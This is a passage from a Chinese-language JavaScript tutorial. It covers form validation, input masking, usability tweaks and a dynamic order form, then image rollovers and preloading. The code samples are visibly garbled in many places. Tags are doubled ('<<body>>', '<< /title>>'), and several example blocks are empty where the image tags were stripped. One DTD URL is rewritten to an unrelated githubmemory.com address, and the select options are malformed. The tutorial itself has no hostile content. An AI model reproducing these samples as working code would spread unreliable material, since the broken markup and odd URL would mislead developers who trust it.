    if (/\d{5}(-\d{4})?/.test(zip))

        return true;

    alert("Zip code must be of form NNNNN or NNNNN-NNNN");

    return false;

}

// -->

</script>

...

<form action="#" method="get">

<input type="text" name="zipcode" id="zipcode"

    onchange="return validateZip(this.value);" />

...other fields...

</form>
```

*validateZip()* 函数在用户更改邮政编码字段后该字段失去焦点时被调用。如果邮政编码无效，处理程序返回 **false**，导致默认操作（字段失焦）被取消。用户必须输入有效的邮政编码才能将焦点移到页面上的另一个字段。

从可用性角度来看，阻止用户将焦点移到另一个字段直到最近修改的字段正确是值得商榷的。通常，用户可能想要输入部分信息，然后再回来完成该字段。或者他们可能误开始在某个字段中输入数据，然后意识到他们根本不希望在该字段中输入任何数据。将输入焦点"困"在一个表单字段中可能会让用户感到沮丧。因此，最好避免这样做。取而代之的是，提醒用户错误，但仍然从 **onchange** 处理程序返回 **true**，允许他们在表单中继续操作。

### 键盘屏蔽

我们已经看到了如何在提交时和错误发生后立即捕获错误，但如何从一开始就防止错误呢？JavaScript 使得在用户输入时限制输入到字段中的数据类型成为可能。这种技术在错误发生时就捕获并防止它们。以下脚本可用于支持现代事件模型的浏览器（如第 11 章所述）。它通过在 **onkeypress** 处理程序中检查输入的每个字符来强制字段只接受数字字符：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html>

<head>

<title>Numbers-Only Field Mask Demo</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/JavaScript">

<!--

function isNumberInput(field, event)

{

  var key, keyChar;


  if (window.event)

    key = window.event.keyCode;

  else if (event)

    key = event.which;

  else

    return true;

  // Check for special characters like backspace

  if (key == null || key == 0 || key == 8 || key == 13 || key == 27)

    return true;

  // Check to see if it's a number

  keyChar =  String.fromCharCode(key);

  if (/\d/.test(keyChar))

    {

      window.status = "";

      return true;

    }
```

```javascript
else
{
    window.status = "Field accepts numbers only.";
    return false;
}

//-->
</script>

</head>

<body>

<form name="testform" id="testform" action="#" method="get">

Robot Serial Number:

<input type="text" name="serialnumber" id="serialnumber"
    size="10" maxlength="10"
    onkeypress="return isNumberInput(this, event);" title="Serial number contains only digits" />
</form>

</body>
</html>
```

在这个脚本中，我们在按键被按下时检测按键，并查看是否允许它。我们可以轻松地修改此脚本以只接受字母，甚至在输入时将字母从小写转换为大写。

屏蔽字段的好处显然在于，它通过在错误发生之前就尝试阻止错误，避免了之后进行大量验证的需要。当然，你需要让用户知道正在发生这种情况，既可以通过清晰地标记字段并使用提示文本（甚至通过设置窗口状态消息给出错误消息，就像我们所做的那样）。你可能会考虑使用警告对话框或将错误消息放入表单中，但这可能过于突兀。

### 验证最佳实践

表单验证确实是 JavaScript 的一个很好的应用，但有时会被误用或应用不当。本节概述了一些可以应用于验证策略的一般原则。

- *乐于助人。* 客户端验证应用于帮助用户正确输入数据。因此，它应该以有益的方式与用户交互。例如，如果用户输入了无效数据，请在错误消息中包含数据预期的格式。同样，在可能的情况下使用脚本来纠正常见错误。例如，使用 JavaScript 自动将格式为 NNN-NNN-NNNN 的电话号码重新格式化为 (NNN) NNN-NNNN 很简单。
- *不要令人讨厌。* 我们使用 **alert()** 来通知用户无效输入是为了演示。然而，**alert()** 必须在用户更正数据之前被关闭，而且用户可能会忘记哪些字段出现了错误。取而代之的是，考虑在页面本身中显示错误消息。


 - *尽可能使用 HTML 特性代替 JavaScript。* 不要使用 JavaScript 来验证字段长度，而应使用 **maxlength**。与其检查日期，不如提供一个下拉列表供用户选择可能的日期，以避免错误输入。对于州代码输入或其他已确定的条目，也可以这样做。

- *一次性显示所有错误。* 许多人希望一次性看到所有错误，因此你可以将每个单独的错误字符串收集到一个错误消息中，并一起显示。

- *尽早捕获错误。* 等到提交时才捕获错误并不是最佳时机。一些开发者会选择在用户离开字段时使用 **onblur** 或 **onchange** 事件处理程序来捕获错误。不幸的是，**onblur** 并不总是按预期工作，因为你可能会陷入无限的事件循环中。如果你确实使用 blur 和 focus 触发器，请务必管理事件，包括阻止它们冒泡（如第 11 章所讨论）。

- *如果有疑问，请更宽容而非更严格。* 最令人生气的事情莫过于你确信输入的信息是有效的，结果却遭到拒绝，因为页面开发者并不了解所有可能的输入。请记住：JavaScript 表单验证是用来帮助用户发现错误的，而不是用来强制执行策略的。

许多开发者忽视了一个重要的注意事项：你始终需要在服务器端验证表单字段。客户端验证*不能*替代服务器端验证；它是一种性能和可用性改进，因为它减少了服务器必须拒绝输入的次数。始终记住，用户可以在浏览器中关闭 JavaScript，或者将页面保存到磁盘并在提交前手动编辑。这是一个严重的安全问题，JavaScript 开发者如果认为他们的验证程序能够阻止别有用心的人向 Web 应用程序注入不良数据，那就大错特错了。

### 表单可用性与 JavaScript

使用 JavaScript 可以实现多种表单可用性改进，包括聚焦字段、在字段完成后自动跳转到其他字段、智能使用 **readOnly** 和 **disabled** 属性，以及管理键盘访问（如快捷键）。本节概述了其中一些可用性改进的可能性。

#### 第一个字段聚焦

用户到达页面后应该能够快速开始在表单中输入数据。虽然可以使用 TAB 键在字段之间快速移动，但请注意，大多数浏览器默认不会聚焦页面上的第一个表单字段，用户可能不得不先点击该字段才能开始键盘输入。使用 JavaScript 可以轻松聚焦表单中的第一个字段，这将以一种微妙但明显的方式改善表单输入。我们可以使用文档的 **onload** 事件来触发聚焦。例如，给定一个名为 *testform* 的表单，其中第一个字段名为 *firstname*，我们可以设置

```
<<body onload="window.document.testform.firstname.focus();">>
```

当然，你可以写一个通用函数来聚焦第一个表单的第一个字段，如下所示：

```
<<script type="text/javascript">>

function focusFirst()

{

    if (document.forms.length >> 0 && document.forms[0].elements.length >> 0)

        document.forms[0].elements[0].focus();

}

window.onload = focusFirst;

<</script>>
```

#### 标签与字段选择

虽然 <<**label**>> 标签可用于在表单中对项目进行分组，以便非可视化浏览器阅读，但它也可以与 JavaScript 结合使用来改善表单可用性。例如，我们可能希望将标签操作与字段操作关联起来。其思想是，当标签获得用户焦点时，无论是通过点击还是使用快捷键，焦点都应切换到相关字段。标签的点击选择操作可以很容易地通过一点 JavaScript 来模拟：

```
<<form name="myform" id="myform" action="#" method="get">>

<<label onclick="document.myform.firstname.focus();">>

 名字：

 <<input type="text" name="firstname" id="firstname" />>

<</label>>

<</form>>
```

在这个例子中，现代浏览器会在用户点击标签时调用其 **focus()** 方法，将光标带到相关字段。幸运的是，旧版浏览器会忽略 <<**label**>> 标签及其事件处理程序属性中的 JavaScript。

> 注意 当然，你也可以编写一个通用函数来聚焦 <<label>> 中的第一个 <<button>>、<<input>>、<<select>>、<<textarea>>，或其 **htmlFor** 属性的值。

#### 状态消息

除了使用元素 **title** 属性定义的工具提示外，利用状态栏向用户提供有关各种表单字段含义和用法的信息也可能很有用。虽然状态栏可能不是用户的主要关注区域，但与工具提示不同，它不是临时的，可以设置为在字段获得焦点期间一直显示消息。我们可以使用 **Window** 对象的 **status** 属性在字段获得焦点时设置状态消息——例如：

```
<<input type="text" name="fullName" id="fullName"

         size="40" maxlength="80"

         title="Enter your full name (Required field)"

         onfocus="window.status='Enter your full name (required)';"

         onblur="window.status='';" />>
```

###禁用字段

禁用的表单字段不应接受用户输入，不属于页面制表顺序的一部分，也不会随表单其余内容一起提交。对于符合 XHTML 1.0 或 HTML 4.0 的浏览器，只需使用 HTML 4 属性 **disabled**，如下所示，

<<input type="text" value="Can't Touch This" name="field1"

       id="field1" disabled="true" />>

就可以禁用字段。浏览器通常会将禁用字段渲染为"灰色"显示。

JavaScript 可用于根据上下文打开和关闭禁用字段。以下标记显示了如何使用。

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">>

<<html>>

<<head>>

<<title>>Disabled Field Demo<</title>>

<<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />>

<</head>>

<<body>>

<<form name="myform" id="myform" action="#" method="get">>

Color your robot? &nbsp; &nbsp;

Yes <<input type="radio" name="colorrobot" id="colorrobot"

```
value="yes" checked="true"
onclick="myform.robotcolor.disabled=false;robotcolorlabel.style.color=
'black';" />
No <<input type="radio" name="colorrobot" id="colorrobot"
    value="no"
onclick="myform.robotcolor.disabled=true;robotcolorlabel.style.color='gray';
" />>
<<br />><<br />>
<<label id="robotcolorlabel">>
Color:
<<select name="robotcolor" id="robotcolor">>
    <<option selected>>Silver<<option>>
    <<option selected>>Green<<option>>
    <<option selected>>Red<<option>>
    <<option selected>>Blue<<option>>
    <<option selected>>Orange<<option>>
<</select>>
<</label>>
<</form>>
<</body>>
<</html>>
```

不幸的是，前面的示例在 Netscape 4 等缺乏完整 HTML 4 支持的旧浏览器中无法工作。但是，请注意，即使是非常旧的浏览器，也可以通过持续使用"伪禁用"字段的 **blur()** 方法来模拟禁用字段，当用户尝试聚焦它们时。显然，这种技术最好留给历史书籍，但如果你的目标是极端的向后兼容性，这是可能的。

### 动态表单

在结束本章之前，让我们再举一个例子，说明如何将智能添加到 Web 表单中使其变为动态。正如我们在本章中所见，既可以读取也可以写入表单字段值；因此，除了检查数据和改善表单使用外，我们还应该能够使用 JavaScript 来小计订单、计算运费并动态填充表单部分。以下示例显示了一个简单的表单，它将输入的项目数量相加并计算小计、税率、运费和总计。该示例的渲染效果如图 14-4 所示。


**图 14-4：** 动态表单示例的渲染效果

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.githubmemory.com/TR/xhtml1/DTD/xhtml1-transitional.dtd">>

<<html>>

<<head>>

<<title>>Dynamic Form Demo<< /title>>

<<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" /> >

<<script type="text/javascript">>
```


```javascript
// 设置表单变量和常量

var widgetCost = 1.50;

var gadgetCost = 2.70;

var thingieCost = 1.25;

var taxRate = 0.075;

var shippingCost = 0;


function isNumberInput(field, event)
{

 var key, keyChar;


 if (window.event)

  key = window.event.keyCode;

 else if (event)

  key = event.which;

 else

  return true;


 // 检查退格键等特殊字符

if (key == null || key == 0 || key == 8 || key == 13 || key == 27)

  return true;


 // 检查是否为数字

keyChar =  String.fromCharCode(key);


if (/\d/.test(keyChar))

 {
 window.status = "";

return true;

}

else

{

window.status = "Field accepts numbers only.";

return false;

}

}
```

```
function format(value)
{
// 格式化为仅保留两位小数
var temp = Math.round(value * 100);

return temp / 100;

return temp;
}
```

```
function calc()
{
with (document.myform)
{
widgettotal.value = format(widgets.value * widgetCost);

gadgettotal.value = format(gadgets.value * gadgetCost);

thingietotal.value = format(thingies.value * thingieCost);

subtotal.value = format(parseFloat(widgettotal.value) +

parseFloat(gadgettotal.value) +

parseFloat(thingietotal.value));

tax.value = format(subtotal.value * taxRate);

for (i=0; i < shipping.length; i++)
    if (shipping[i].checked)
        shippingcost = parseFloat(shipping[i].value);

grandtotal.value = format(parseFloat(subtotal.value) +
                            parseFloat(tax.value) +
                            shippingcost);
}

}
//-->
```

```
<form id="myform" name="myform" action="#" method="get">
Widgets: <input type="text" name="widgets" id="widgets"
    size="2" value="0" onchange="calc();"
    onkeypress="return isNumberInput(this, event);" />
@ 1.50 each
<input type="text" id="widgettotal" name="widgettotal"
    size="5" readonly="readonly" />
<br />
Gadgets: <input type="text" name="gadgets" id="gadgets"
    size="2" value="0" onchange="calc();"
    onkeypress="return isNumberInput(this, event);" />
@ 2.70 each
<input type="text" id="gadgettotal" name="gadgettotal"
        size="5" readonly="readonly" />
<br />
Thingies: <input type="text" name="thingies" id="thingies"
    size="2" value="0" onchange="calc();"
    onkeypress="return isNumberInput(this, event);" />
@ 1.25 each
<input type="text" id="thingietotal" name="thingietotal"
    size="5" readonly="readonly" />

<br /><br /><br />

<em>Subtotal:</em>
<input type="text" id="subtotal"
    name="subtotal" size="8" value="0" readonly="readonly" />

<br /><br /><br />

<em>Tax:</em> <input type="text" id="tax" name="tax" size="5"
    value="0" readonly="readonly" />

<br /><br /><br />

<em>Shipping:</em>
Next day: <input type="radio" value="12.00" name="shipping"
    id="shipping" checked="true" onclick="calc();" />
2-day: <input type="radio" value="7.00" name="shipping"
    id="shipping" onclick="calc();" />
Standard: <input type="radio" value="3.00" name="shipping"
    id="shipping" onclick="calc();" />

<br /><br /><br />

<strong>Grand Total:</strong>
<input type="text" id="grandtotal" name="grandtotal"
size="8" readonly="readonly" />

</form>
```

```
</body>

</html>
```
请注意，前面的示例使用了字段掩码来避免过度检查表单内容，并大量使用了**readonly**属性，以防止用户认为他们可以修改计算字段。另外还要注意，由于 JavaScript 的数字格式化能力相对有限，我们添加了一个基本的格式化函数。通过这个基础示例，你应该可以看到如何有可能在你的网站上添加计算器或其他更动态的表单应用程序。

> **注意** *正如我们在“验证最佳实践”部分提到的，依赖客户端 JavaScript 来计算销售税和购买成本等并非良策。任何人都可以关闭 JavaScript，修改表单将数量设为 100 个、单价设为 1 分钱，然后提交。像我们前面示例中的脚本只应作为用户的便利工具使用，即让他们在将交易提交到服务器之前，大致了解他们将要花费多少。*

### 总结

自 JavaScript 的最早版本以来，表单字段就一直可以通过 JavaScript 访问。访问表单元素的主要目的是在提交前验证其内容。然而，我们在本章中也看到，通过使用少量的代码，可以实现可用性的提升。更复杂的例子，例如完全动态的表单，也是可能的，并且借助 DOM，甚至可以更显著地修改表单。我们鼓励程序员自行编写或获取验证库，以确保向 Web 应用程序提交最高质量的表单数据。然而，JavaScript 开发者应始终假设他们的验证例程可能被恶意用户绕过，并在服务器端也进行检查。下一章将探讨 JavaScript 的另一个常见用途——图像翻转和屏幕动画。

## 第 15 章：动态效果：翻转、定位与动画

在本章中，我们将探讨如何使用 JavaScript 为网页增添光彩与活力。首先从基本的翻转脚本开始，即鼠标悬停在图像上时更换图像，然后我们会深入更高级的技术，包括基于目标和基于级联样式表（CSS）的翻转。我们还将讨论对 CSS 定位区域的操作，重点关注可见性和定位问题。最后，我们将描述如何使用定时器来移动和改变定位的对象和文本，从而创建基本的动画效果。重点在于使所有介绍的效果尽可能实现跨浏览器兼容。关注的是可用于创建动态页面的基本技术，而不是展示所有可能的效果。

#### 图像

**Document** 对象的 **images[]** 集合在 Netscape 3 和 Internet Explorer 4 中引入，此后几乎被所有现有浏览器采用。该集合是 DOM Level 1 标准的一部分，因此在未来很长一段时间内都会得到支持。该集合包含与文档中所有 **\** 标签对应的 **Image** 对象（在 DOM1 规范中称为 **HTMLImageElements**）。与所有集合一样，images 可以通过数字索引（**document.images[i]**）、关联索引（**document.images['imagename']**）和直接访问（**document.images.imagename**）来引用。

#### 图像对象

**Image** 对象的属性，如预期那样，对应于 (X)HTML 标准中定义的 **\** 标签的属性。表 15-1 概述了 **Image** 对象除常见的 **id**、**className**、**style**、**title** 和 DOM1 Core 属性之外的属性。

表 15-1：Image 对象的属性

| 属性 | 描述 |
|---|---|
| **align** | 表示图像的对齐方式，通常为 "left" 或 "right"。 |
| **alt** | 由 **alt** 属性设置的图像替代文本。 |
| **border** | 图像边框的宽度，以像素为单位。 |
| **complete** | 非标准（但支持良好）的布尔值，表示图像是否已完成加载。 |
| **height** | 图像的高度，以像素或百分比值表示。 |
| **hspace** | 图像周围的水平空间，以像素为单位。 |
| **isMap** | 布尔值，表示是否存在 **ismap** 属性，该属性表明图像是服务器端图像映射。如今更常用 **useMap** 属性。 |
| **longDesc** | (X)HTML **longdesc** 属性的值，它提供比 **alt** 属性更详细的图像描述。 |
| **lowSrc** | 由 **lowsrc** 属性设置的“低分辨率源”图像的 URL。在早期浏览器中，这是由 **lowsrc** 属性指定的。 |
| **name** | 图像 **name** 属性的值。 |
| **src** | 图像的 URL。 |
| **useMap** | 如果 **\** 标签具有 **usemap** 属性，则表示客户端图像映射的 URL。 |
| **vspace** | 图像周围的垂直空间，以像素为单位。 |
| **width** | 图像的宽度，以像素或百分比值表示。 |

传统的 **Image** 对象还支持 **onabort**、**onerror** 和 **onload** 事件处理程序。当用户中止图像加载时（通常通过点击浏览器的停止按钮），会调用 **onabort** 处理程序。当图像加载过程中发生错误时，会触发 **onerror** 处理程序。**onload** 处理程序是，

当然，一旦图像加载完毕就会触发。在支持(X)HTML的现代浏览器实现中，你还会发现**Image**对象支持**onmouseover**、**onmouseout**、**onclick**以及其他核心事件。

以下示例展示了如何简单访问**Image**的常用属性。该示例的渲染结果如*图15-1*所示。


**图15-1:** 使用JavaScript操作**Image**属性

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>JavaScript Image Object Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>


<br clear="all" />

<hr />

<br clear="all" />

<h1>Image Properties</h1>

<form name="imageForm" id="imageForm" action="#" method="get">

Left:
<input type="radio" name="align" id="alignleft" value="left" checked="checked"
onchange="document.images.image1.align=this.value" />

Right:
<input type="radio" name="align" id="alignright" value="right"
onchange="document.images.image1.align=this.value" />
<br />

Alt:
<input type="text" name="alt" id="alt"
onchange="document.images.image1.alt=this.value" />
<br />

Border:
<input type="text" name="border" id="border"
onchange="document.images.image1.border=this.value" />
<br />

Complete:
<input type="text" name="complete" id="complete" />
<br />

Height:

<input type="text" name="height" id="height"
onchange="document.images.image1.height=this.value" />
<br />

Hspace:

<input type="text" name="hspace" id="hspace"
onchange="document.images.image1.hspace=this.value" />
<br />

Name:

<input type="text" name="name" id="name" />
<br />

Src:

<input type="text" name="src" id="src" size="40"
onchange="document.images.image1.src=this.value" />
<br />

Vspace:

<input type="text" name="vspace" id="vspace"
onchange="document.images.image1.vspace=this.value" />
<br />

Width:

<input type="text" name="width" id="width"
onchange="document.images.image1.width=this.value" />

</form>

<script type="text/javascript">
<!--
function populateForm()
{
  if (document.images && document.images.image1 &&
      document.images.image1.complete)
  {
    with (document.imageForm)
    {
      var i = document.images.image1;
      alt.value = i.alt;
      border.value = i.border;
      complete.value = i.complete;
      height.value = i.height;
      hspace.value = i.hspace;
      name.value = i.name;
      src.value = i.src;
      vspace.value = i.vspace;
      width.value = i.width;
    }
  }
}
window.onload = populateForm;
//-->
</script>

</body>
</html>
```

> **注意** 如果你在非常古老的浏览器（如 Netscape 3）中尝试这个示例，你会发现无法操作 **Image** 对象的属性，除了 **src** 属性。

注意在前面的示例中，如何动态地操作图像的 **src** 属性。这引出了 **Image** 对象的第一个应用——无处不在的悬停按钮。

#### 悬停按钮

最常见的JavaScript页面修饰之一就是包含悬停按钮。*悬停按钮*是一种当用户将鼠标移到其上或其上发生其他事件时会改变的按钮。例如，除了在用户将鼠标移到其上时改变，它在被点击时也可以改变。

要创建一个基本的悬停按钮，你首先需要两张，甚至可能三张图片，来表示按钮的每种状态——*非活动状态*、*活动状态*和*不可用状态*。前两种状态分别对应鼠标在按钮上和不在按钮上的情况；最后一种是可选状态，以防你希望显示按钮不可操作（例如，变灰）。这里展示了一对简单的悬停按钮图片：


其原理是像平常一样将图片包含在页面中，使用 **\** 标签引用处于非活动状态的图片。当鼠标经过图片时，将图片的 **src** 切换为代表活动状态的图片。当鼠标离开时，切换回原始图片。

给定以下图片，

```html

```

一个合理的悬停按钮实现可能是，

```html

```

当然，你甚至可以简化这个例子，因为不需要引用对象路径，而是使用关键字 **this**，如下所示：

```html

```

#### 悬停的局限性

前面的悬停示例在大多数现代浏览器中有效，但在像 Netscape 4 这样的旧浏览器中，你无法以这种方式捕获图像上的 **mouseover** 事件，在像 Netscape 3 这样的非常古老的浏览器中，你根本无法捕获它们。此外，我们可能会发现脚本没有处理悬停效果对应的图片是否已被浏览器下载的问题。作为对追求动态效果时出现的跨浏览器问题的温和介绍，我们将探讨如何处理这些问题以及其他问题。

##### 事件绑定问题

我们在跨浏览器和浏览器版本处理悬停效果时遇到的第一个问题是，在许多旧的JavaScript实现中，**\** 标签不支持事件绑定。因此，如果你想向后兼容 Netscape 3 和 4，你可以通过回想图片可以被链接包围，而 Netscape 3 和 4 中的链接会接收 **onmouseover** 事件来解决这个问题。因此，可以利用链接的事件处理程序进行控制。以下简短示例展示了这种技术，假设有两张名为 "imageon.gif" 和 "imageoff.gif" 的图片。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Quick and Dirty Rollovers</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function mouseOn()
{
    document.image1.src = "imageon.gif";
}

function mouseOff()
{
    document.image1.src = "imageoff.gif";
}
//--> 
</script>
</head>
<body>
<a href="#" onmouseover="mouseOn()" onmouseout="mouseOff()"></a>
</body>
</html>
```

##### 缺乏Image对象支持

你会发现前面的示例在某些旧的、启用了JavaScript的浏览器（如Internet Explorer 3和Netscape 2）中不工作。在这些浏览器中，图像不是可脚本化的，因此它们不支持 **images[]** 集合。因此，无论是否支持，我们都应该采取安全的方法，尝试在修改图像之前检测JavaScript支持情况。

确保用户运行支持可脚本化图像的浏览器的最简单方法是检查 **document.images[]** 集合是否存在：

```
if (document.images)
{
    // 执行与图像相关的代码。
}
```

这个语句确定 **document.images** 是否存在。如果对象不存在，**document.images** 是 **undefined**，因此条件求值为 **false**。另一方面，如果数组存在，它是一个对象，因此在条件语句中求值为 **true**。我们将在下一个示例中添加这个检查，该示例解决了一个超越浏览器版本的问题。

##### 图片预加载

如果用户在悬停图片尚未下载时就开始触发悬停效果，会发生什么？不幸的是，答案是会显示一张损坏的图片。为了对抗这个问题，我们使用 *JavaScript预加载* 来强制浏览器在实际需要之前下载图片（或其他对象），并将其放入缓存以供后续使用。

预加载图片最简单的方法是在文档的 **\<head\>** 中，创建一个新的 **Image** 对象并将其源设置为要预加载的图片。这迫使浏览器立即开始获取图片。除非我们延迟了脚本执行，否则图片必须在脚本继续之前下载，从而确保预加载。要创建一个Image对象，使用对象构造函数 **new**：

```
var myImage = new Image();
```

如果你愿意，可以向构造函数传递宽度和高度，但在实践中，如果目标是预加载，这并没有太大区别：

```
var myImage = new Image(width, height);
```

对象创建后，设置 **src** 属性以便浏览器下载它：

```
myImage.src = "URL of image";
```

考虑以下改进的图像悬停示例：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Rollover Example with Preloading</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
if (document.images)
{   // 预加载图片
    var offImage = new Image(); // 用于非活动图片
    offImage.src = "imageoff.gif";
    var onImage = new Image();  // 用于活动图片
```


onImage.src = "imageon.gif";
}


function mouseOn()
{
  if (document.images)
    document.images.image1.src = onImage.src;
}


function mouseOff()
{
  if (document.images)
    document.images.image1.src = offImage.src;
}

//-->

</script>

</head>

<body>

<a href="http://www.pint.com" onmouseover="mouseOn();"
    onmouseout="mouseOff();"></a>

</body>

</html>
```

这个示例更接近我们的需求。然而，一个遗留问题是图像名称被硬编码在脚本中，因此如果你想重用它（或者即使只是想向页面添加更多翻滚图像），就需要进行大量的自定义修改。我们接下来解决这个问题。

#### 泛化翻滚代码

使这段代码更具可重用性的一种方法是开发一套一致的图像命名规范，并编写遵循此规范的 JavaScript。例如，你可以始终使用 "on" 和 "off" 作为每个图像名称的后缀，来指示该图像所对应的状态。然后，通过对名称和相应后缀进行简单的求值，就可以自动计算出所需的图像。这最好用一个示例来说明：

```javascript
<script type="text/javascript">
<!--

function preloadImage(url)
{
    var i = new Image();
    i.src = url;
    return i;
}

if (document.images)
{  // 预加载图像
    var homeon = preloadImage("homeon.gif");
    var homeoff = preloadImage("homeoff.gif");
    var productson = preloadImage("productson.gif");
    var productsoff = preloadImage("productsoff.gif");
}

// 对于输入 "myimage"，此函数将具有该名称的图像的 src 设置为 myimageon.src 的值
function mouseOn(imgName)
{
    if (document.images)
        document[imgName].src = eval(imgName + "on.src");
}

// 对于输入 "myimage"，此函数将具有该名称的图像的 src 设置为 myimageoff.src 的值
function mouseOff(imgName)
{
  if (document.images)
    document[imgName].src = eval(imgName + "off.src");
}
//-->
</script>
```

注意我们是如何不仅泛化了图像交换功能，还泛化了预加载功能。

之后，在我们 HTML 文件的某处，我们会适当地为图像和链接命名，并设置 **onmouseover** 和 **onmouseout** 事件处理程序，以触发脚本中相应的部分：

```html
<a href="home.html" onmouseover="mouseOn('home');"
    onmouseout="mouseOff('home');"></a>
<br />

<a href="products.html" onmouseover="mouseOn('products');"
    onmouseout="mouseOff('products');"></a>
```

**一个完整的可运行示例如下所示：**

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>带预加载的翻滚示例</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function preloadImage(url)
{
  var i = new Image();
  i.src = url;
  return i;
}

if (document.images)
{  // 预加载图像
  var homeon = preloadImage("homeon.gif");
  var homeoff = preloadImage("homeoff.gif");
  var productson = preloadImage("productson.gif");
  var productsoff = preloadImage("productsoff.gif");
}

// 对于输入 "myimage"，此函数将具有该名称的图像的 src 设置为 myimageon.src 的值
function mouseOn(imgName)
{
  if (document.images)
    document[imgName].src = eval(imgName + "on.src");
}

// 对于输入 "myimage"，此函数将具有该名称的图像的 src 设置为 myimageoff.src 的值
function mouseOff(imgName)
{
  if (document.images)
    document[imgName].src = eval(imgName + "off.src");
}

//--> 
</script>
</head>
<body>

...此处为页面内容...
<br />

<a href="home.html" onmouseover="mouseOn('home');"
    onmouseout="mouseOff('home');"></a>

<br />

<a href="products.html" onmouseover="mouseOn('products');"
    onmouseout="mouseOff('products');"></a>

</body>
</html>
```

根据所示脚本，翻滚效果仅受限于你复制粘贴和保持名称正确的能力。翻滚效果已经变得如此普遍，以至于大多数所见即所得（WYSIWYG）的 HTML 编辑器都可以直接插入翻滚代码。注意此处显示的 Dreamweaver 对话框，它要求填写的内容正是我们脚本中使用的项目。


然而，这种复制粘贴或填写即用的 JavaScript 并不是我们要教授的内容。让我们考虑超越简单的翻滚效果。

#### 扩展翻滚效果

像刚才展示的现成翻滚代码是可以改进的。只要稍加巧思，你就可以编写一个翻滚脚本，而无需将 **onmouseover** 和 **onmouseout** 代码与其绑定。考虑创建一个表示翻滚的类名，然后让 JavaScript 遍历文档，找到这些 `` 标签，并推断出要预加载的适当图像，然后通过 JavaScript 动态绑定触发事件。这种非常简洁的翻滚方式可以通过一个外部 .js 文件来引用，并在所有需要的页面中缓存。这将避免你需要在网站各处复制粘贴类似的翻滚代码，而这似乎是 Web 上的常见做法，也正是像 Dreamweaver 这样的编辑器所生成的内容。

除了改进翻滚效果的代码风格，我们或许还可以扩展它们以执行其他功能。例如，当用户将鼠标悬停在一个链接上时，一个翻滚效果可以显示屏幕其他地方的文本或图像。可以编写一个脚本，显示一个范围注释，提供关于目标链接的信息。你甚至可以提供一个图像，用户可以悬停其上，通过显示另一个图像来了解该对象的详细信息。一旦你理解了翻滚的基本概念，你就只受限于你的想象力（以及你的用户对花哨效果的容忍度！）。

以下标记和 JavaScript 展示了这样一种增强功能如何工作：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<script type="text/javascript">
<!--

// 预加载所有图像
if (document.images)
{
    var abouton = new Image();
    abouton.src = "abouton.gif";
    var aboutoff = new Image();
    aboutoff.src = "aboutoff.gif";
    // ... 可能有更多按钮 ...
    var blank = new Image();
    blank.src = "blank.gif";
    var description1 = new Image();
    description1.src = "description.gif";
    // ... 可能有更多描述 ...
}

/* 打开给定的图像同时显示描述 */
function on(imgName, description)
{
  if (document.images)
  {
    imgOnSrc = eval(imgName + "on.src");
    document.images[imgName].src = imgOnSrc;
    document.images["descriptionregion"].src = description.src;
  }
}

/* 关闭给定的图像同时清空描述 */
function off(imgName)
{
  if (document.images)
  {
    imgOffSrc = eval(imgName + "off.src");
    document.images[imgName].src = imgOffSrc;
    document.images["descriptionregion"].src = "blank.gif";
  }
}

//-->

</script>

</head>

<body>

<a href="about.html"
onmouseover="on('about', description1);window.status='Company';return true;"
onmouseout="off('about');window.status='';return true;"></a>

<!-- ... 可能有更多按钮 ... -->

&nbsp; &nbsp; &nbsp;

<a href="#"></a>

</body>

</html>
```

图 15-2 展示了翻滚代码的实际运行效果。


尽管从前面的示例来看，JavaScript 鼠标悬停效果似乎很有用，但其应用前景已有些不容乐观，因为许多此类效果通过网页中引入 CSS 后能得到极大改善。

## JavaScript 鼠标悬停效果将走向终结？

随着层叠样式表（CSS）的兴起，对基于 JavaScript 的鼠标悬停代码的需求已大幅减少。开发人员已经发现，鼠标悬停效果从某种意义上说是"昂贵的"，因为它们需要下载额外的图像来实现悬停效果。对于简单的导航项而言，这种代价并不值得，因此许多 Web 开发人员选择使用简单的 CSS :hover 属性来实现悬停效果，如下所示：

```html
<style type="text/css">

a:hover    {background-color: yellow; font-weight: bold;}

</style>
```

如果你进一步拓展悬停的概念，甚至可以改变某个区域的背景图像来创建更具视觉效果的悬停效果。具体做法是，将悬停区域设置为一个包含替代文本的透明 GIF，然后在悬停时切换 background-image。通过这种简单的 CSS，你现在可以实现无需任何 JavaScript 的可降级且可访问的图形化悬停效果！下面的示例说明了这一思路。

```html
